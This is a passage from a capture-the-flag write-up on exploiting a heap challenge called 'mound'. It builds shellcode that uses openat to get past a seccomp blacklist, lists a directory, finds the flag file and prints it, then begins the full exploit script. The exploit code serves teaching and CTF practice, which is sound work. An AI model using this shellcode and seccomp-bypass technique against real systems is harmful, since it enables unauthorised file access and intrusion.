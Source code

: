 ```python
# ... everything up until the first few add() calls ...
sc = ... # I'm about to cover this part.
sc = asm(sc) # don't call asm() twice
add(len(sc), 8, sc) # dump shellcode somewhere in mound_data for later use
# ... everything else, e.g. getting mcache dup ...
```

Figuring out _what_ shellcode to run isn't too difficult, if you have a [syscall reference](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) in hand. This challenge shows why you shouldn't use a seccomp blacklist: `open` might be banned, but [openat](https://linux.die.net/man/2/openat) certainly isn't. I'll start off with some shellcode to open the `/pwn/` folder:

```python
sc = shellcraft.pushstr('/pwn')
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY)
sc+= 'mov QWORD PTR [{}], rax\n'.format(0xbeef0000000)
sc+= shellcraft.getdents64('rax', 0xbeef0010000, 0x10000) # use getdents() to list a directory
```

After that, I'll apply a basic assembly loop to search for `.txt`:

```python
sc+= shellcraft.mov('rax', 0xbeef0010000)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(u32('.txt'))
sc+= 'jne loop\n'
# End result: *(int*)rax == u32(".txt")
```

Since the flag's filename is always 0x20+4 bytes long, the beginning of the flag filename will be at `rax-0x20` , and I can use `openat` again to write the flag to stdout:

```python
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(0xbeef0000000)
sc+= shellcraft.openat('rax', 'rbx', 0)          # i.e. shellcraft.cat('rbx'), but
sc+= shellcraft.read('rax', 0xdead0000000, 100)  # because pwntools uses SYS_open 
sc+= shellcraft.write(1, 0xdead0000000, 100)     # I have to do this in 3 lines.
```

### Getting the flag

For reference, this is what the full script should look like at this point:

```python
from random import randint
from collections import namedtuple
from ctypes import CDLL
from pwnscripts import *

BEEF, DEAD = 0xbeef0000000, 0xdead0000000
mound_arena = namedtuple('mound_metadata', 'base ids mcache top')(DEAD, DEAD+0x8, DEAD+0x8008, DEAD+0x8010)
mound_data = namedtuple('beef', 'base mcache dents shellcode')(BEEF, BEEF+0x10, BEEF+0x10000, BEEF+0x100)
midxs = namedtuple('midb', 'prev_size_editor fakeid_provider strdup mcache_dup got_overwriter')(5, 6, 0, 1, 2)

context.binary = 'mound'
context.libc = 'libc.so.6'
libc = CDLL('libc.so.6')
t = libc.time(0)
r = context.binary.process()
libc.srand(t^r.pid)

# I/O methods
def choose(opt: int): r.sendlineafter(b'> ', str(opt))
```